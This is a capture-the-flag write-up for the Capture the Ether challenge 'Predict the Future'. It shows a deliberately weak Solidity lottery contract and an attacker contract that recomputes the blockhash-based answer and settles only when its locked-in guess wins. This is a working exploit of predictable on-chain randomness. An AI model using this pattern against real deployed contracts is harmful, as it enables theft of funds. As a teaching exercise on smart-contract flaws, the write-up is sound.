 # Catch the Ether 5: Predict the Future

Random numbers cannot be created inside solidity, oracles are suggested

## The Task Intro

This time, you have to lock in your guess before the random number is generated. To give you a sporting chance, there are only ten possible answers.

Note that it is indeed possible to solve this challenge without losing any ether.

## The Task Code

```apache
pragma solidity ^0.4.21;

contract PredictTheFutureChallenge {
    address guesser;
    uint8 guess;
    uint256 settlementBlockNumber;

    function PredictTheFutureChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function lockInGuess(uint8 n) public payable {
        require(guesser == 0);
        require(msg.value == 1 ether);

        guesser = msg.sender;
        guess = n;
        settlementBlockNumber = block.number + 1;
    }

    function settle() public {
        require(msg.sender == guesser);
        require(block.number > settlementBlockNumber);

        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;

        guesser = 0;
        if (guess == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```

## The Solution

This task looks impossible to solve, how should I predict a future block hash, even if there are only values from 0-10 possible, when you can guess only once?

So I studied a while over this problem. In a way it was a problem like the second challange, we never can revert a hash to its original problem with the means I have available. So why not just say hey I guess number 1. And I call only settle if the current block has equals to 1. See the calling contract below.

Done again🎉️.

```apache
contract Crack {
    PredictTheFutureChallenge public ptfc;
    address public owner;

    function Crack(PredictTheFutureChallenge _ptfc) public payable {
        owner = msg.sender;
        ptfc = _ptfc;
        //(new PredictTheFutureChallenge).value(1 ether)();
        //ptfc.lockInGuess.value(1 ether)(1);
    }

    function guess(uint8 n) external {
        ptfc.lockInGuess.value(1 ether)(n);
    }

    function attack() external {
        require(owner == msg.sender);
        if (uint8(keccak256(block.blockhash(block.number - 1), now)) % 10 == uint8(1)) {
            ptfc.settle();
        }
    }

    function payback() external {
        require(owner == msg.sender);
        owner.transfer(address(this).balance);
    }

    function() public payable {}
}

```
